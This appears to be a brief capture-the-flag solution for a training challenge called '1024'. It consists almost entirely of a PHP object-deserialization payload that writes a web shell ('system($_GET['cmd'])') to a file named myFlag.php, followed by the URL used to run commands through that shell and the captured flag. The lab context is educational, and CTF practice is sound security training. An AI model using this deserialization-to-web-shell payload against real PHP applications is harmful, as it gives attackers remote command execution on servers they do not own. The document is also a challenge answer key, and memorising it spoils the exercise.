 # 1024

O:7:"Ranking":3:{s:7:"ranking";s:34:"<?php echo system($_GET['cmd']);?>";s:7:"changed";b:1;s:4:"path";s:12:"./myFlag.php";}

http://1024.training.jinblack.it/games/myFlag.php?cmd=export

flag{never_deserialize_user_input!}
